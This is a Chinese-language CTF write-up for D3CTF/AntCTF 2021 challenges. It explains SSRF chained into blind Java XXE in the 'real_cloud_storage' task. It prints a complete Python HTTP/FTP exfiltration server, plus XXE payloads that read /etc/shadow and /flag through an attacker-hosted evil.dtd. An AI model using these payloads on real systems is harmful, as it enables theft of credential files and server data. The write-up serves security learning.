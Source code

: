 ```yaml
---
title: "D3ctf^antctf2021复现"
date: 2021-03-10T14:18:14+08:00
draft: true
image: https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311143228.png
description: 
categories: 
- ctf_writeup
tags:
- XXE
- 原型链污染
- NodeJS
---
```


### 8-bit-pub

考点：json sqli、绕过\__proto__、原型链污染、sendmail参数注入

给了源码：[source.zip](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/D3ctf%5EAntctf/%5BD3ctf%5EAntctf%5D8-bit-hub/8-bit_pub.zip)

打开VSCode，审计，主要功能点在`controller/userController.js`（登陆注册）和`controller/adminController.js`（发送邮件），不过在调用adminController之前会调用`utils/auth.js`进行鉴权。



### real_cloud_storage

考点：Java-XXE盲打+SSRF

![image-20210310204312081](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311114541.png)

题目是一个文件上传的服务，抓包观察，上传会向第二个服务端POST数据，然后第二个服务端会对第三个服务端PUT请求。

可以更改我们发起的POST参数让第二个服务端像我们自己的VPS发送PUT请求数据：

![image-20210310204711368](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311114549.png)

修改之后我们能收到一个来自第二个服务端的PUT请求：

![image-20210310200933160](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311114554.png)

我们可以仿照这个请求，对第三个服务端直接发起请求：

![image-20210310205313565](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311114600.png)

返回了一个XML的报错信息；

按照逻辑，第二个服务端肯定会解析第三个服务端返回的信息，然后返回第一个服务端再返回给给客户端，既然解析了xml那么就有可能存在xxe。

事实上，如果去查看nos-sdk-java的源码的话，也可以发现确实是存在解析这个操作。https://github.com/NetEase-Object-Storage/nos-java-sdk

倘若我们控制这个返回信息，让第二个服务端加载我们的外部实体，就有可能读取这台机器上的文件。

接下来就是Java的xxe盲打，这在X1cT34m第二次考核遇见过，利用ftp外带信息。

直接上exp：

```python
#!/usr/bin/env python

import SocketServer
from threading import Thread
from time import sleep
import logging
from sys import argv

logging.basicConfig(filename='server-xxe-ftp.log',level=logging.DEBUG)

"""
The XML Payload you should send to the server!
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///etc/shadow">
  <!ENTITY % dtd SYSTEM "http://x.x.x.x:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>
"""

payload = """<!ENTITY % all "<!ENTITY send SYSTEM 'ftp://{}:{}/%file;'>">
%all;"""

def wlog(_str):
    print _str
    logging.info("{}\n".format(_str))

class WebServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our webserver.
    """

    def handle(self):
        """
        Blanketly return the XML payload regardless of who's asking.
        """
        resp = """HTTP/1.1 200 OK\r\nContent-Type: application/xml\r\nContent-length: {}\r\n\r\n{}\r\n\r\n""".format(len(payload), payload)
        # self.request is a TCP socket connected to the client
        self.data = self.request.recv(4096).strip()
        wlog("[WEB] {} Connected and sent:".format(self.client_address[0]))
        wlog("{}".format(self.data))
        # Send back same data but upper
        self.request.sendall(resp)
        wlog("[WEB] Replied with:\n{}".format(resp))

class FTPServer(SocketServer.BaseRequestHandler):
    """
    Request handler for our ftp.
    """

    def handle(self):
        """
        FTP Java handler which can handle reading files
        and directories that are being sent by the server.
        """
        # set timeout
        self.request.settimeout(10)
        wlog("[FTP] {} has connected".format(self.client_address[0]))
        self.request.sendall("220 xxe-ftp-server\n")
        try:
            while True:
                self.data = self.request.recv(4096).strip()
                wlog("[FTP] Received:\n{}".format(self.data))
                if "LIST" in self.data:
                    self.request.sendall("drwxrwxrwx 1 owner group          1 Feb 21 04:37 rsl\n")
                    self.request.sendall("150 Opening BINARY mode data connection for /bin/ls\n")
                    self.request.sendall("226 Transfer complete.\n")
                elif "USER" in self.data:
                    self.request.sendall("331 password please - version check\n")
                elif "PORT" in self.data:
                    wlog("[FTP] ! PORT received")
                    wlog("[FTP] > 200 PORT command ok")
                    self.request.sendall("200 PORT command ok\n")
                elif "SYST" in self.data:
                    self.request.sendall("215 RSL\n")
                else:
                    wlog("[FTP] > 230 more data please!")
                    self.request.sendall("230 more data please!\n")
        except Exception, e:
            if "timed out" in e:
                wlog("[FTP] Client timed out")
            else:
                wlog("[FTP] Client error: {}".format(e))
        wlog("[FTP] Connection closed with {}".format(self.client_address[0]))

def start_server(conn, serv_class):
    server = SocketServer.TCPServer(conn, serv_class)
    t = Thread(target=server.serve_forever)
    t.daemon = True
    t.start()
    
if __name__ == "__main__":
    if not argv[1]:
        print "[-] Need public IP of this server in order to receive data."
        exit(1)
    WEB_ARGS = ("0.0.0.0", 8888)
    FTP_ARGS = ("0.0.0.0", 2121)
    payload = payload.format(argv[1],FTP_ARGS[1])
    wlog("[WEB] Starting webserver on %s:%d..." % WEB_ARGS)
    start_server(WEB_ARGS, WebServer)
    wlog("[FTP] Starting FTP server on %s:%d..." % FTP_ARGS)
    start_server(FTP_ARGS, FTPServer)
    try:
        while True:
            sleep(10000)
    except KeyboardInterrupt, e:
        print "\n[+] Server shutting down."#   
```

运行脚本，然后让控制返回信息，使用郭院士推荐的：https://requestrepo.com/

返回的信息：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY % file SYSTEM "file:///flag">
  <!ENTITY % dtd SYSTEM "http://1xx.xx.xx.5:8888/evil.dtd">
  %dtd;
]>
<data>&send;</data>

```

就可以收到flag了：

![image-20210310222506300](https://cdn.jsdelivr.net/gh/Anthem-whisper/imgbed/img/20210311114607.png)

其实这题不算难，关键点在于你能不能想到第二个服务端会解析返回的xml信息，当然去审计源码也是可以的。